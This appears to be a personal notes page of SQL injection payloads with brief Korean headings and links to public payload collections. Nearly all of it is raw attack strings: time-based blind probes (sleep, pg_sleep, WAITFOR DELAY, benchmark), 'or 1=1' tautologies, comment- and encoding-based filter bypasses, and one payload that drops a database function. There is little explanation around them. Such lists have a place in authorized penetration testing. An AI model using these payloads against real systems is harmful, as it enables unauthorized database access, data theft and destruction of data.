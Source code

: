 # SQLInjection

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```

```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'
```

```
/*'XOR(if(2=2,sleep(10),0))OR'
```


```
%2c(select%20*%20from%20(select(sleep(10)))a)
%2c(select*from(select(sleep(20)))a)
(SELECT * FROM (SELECT(SLEEP(15)))a)
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
AND (SELECT 8327 FROM (SELECT(SLEEP(5)))yrDl)
' AND (SELECT -9789) OR 6323=6323# FROM (SELECT(SLEEP(5)))Xeps) AND 'HlBp'='HlBp
' AND SLEEP(5) AND 'wRIg' LIKE 'wRIg
%20AND%20SLEEP(15)%23
';SELECT 1;SELECT pg_sleep\(30\);--'
AND SLEEP(15)
```

```
https://github.com/payloadbox/sql-injection-payload-list
```
SqIinjection 테스트 코드 

탐지 점검
```
&apos;
'
%%2727
%25%27
```

`
select ‘abc’ || ‘def’;
`

```
/**/and/**/1=1/**/--
(1)and(1)=(1)
%09and%091=1%09--
%0Dand%0D1=1%0D--
%0Cand%0C1=1%0C--
%0Band%0B1=1%0B--
%0Aand%0A1=1%0A--
%A0and%A01=1%A0--
```



```
or 1=1 -- 
' or 1=1 -- 
" or 1=1 -- 
1 and 1=2 -- 
```

```
'//AND//'1%'='0 
```

주석으로 우회 
```
'/**/AND/**/'1%'='0
```

시간 기반 테스트 
```
'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

```
';WAITFOR DELAY '0:0:5'--
```

테스트
```
'||(SELECT 0x615a636e FROM DUAL WHERE 7192=7192 AND (SELECT 4865 FROM (SELECT(SLEEP(5)))VDbe))||'
```

```
`=`1` AND ELT(1337=1337 AND ELT(1337=1337,SLEEP(5*5)))|[1
```

OR x=y     

HAVING 1=0

AND 1=0


AND 7=9 AND (5=5
 AND 7=9 AND ('5=5
 AND 7=7 AND 'Z'='Y
 AND 7=7 AND ('Z'='Y
 WHERE 1=1 AND 1=0

AND SLEEP(15)
+ SLEEP(10) + '
' AnD SLEEP(15) ANd '1
(SELECT * FROM (SELECT(SLEEP(15)))ecMj)
+benchmark(3200,SHA1(1))+'
ORDER BY SLEEP(15)
'&&SLEEP(15)&&'1
0' AND SLEEP(15)
';WAITFOR DELAY '0:0:30'--
'+WAITFOR+DELAY+'0:0:10'--+-"

'+(select*from(select(sleep(7*7)))a)+'
 OR 3=3 AND ('W' LIKE 'Y
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
IF(7=4) SELECT 7 ELSE DROP FUNCTION xcjl--
%' AND 1=8 AND '%'='
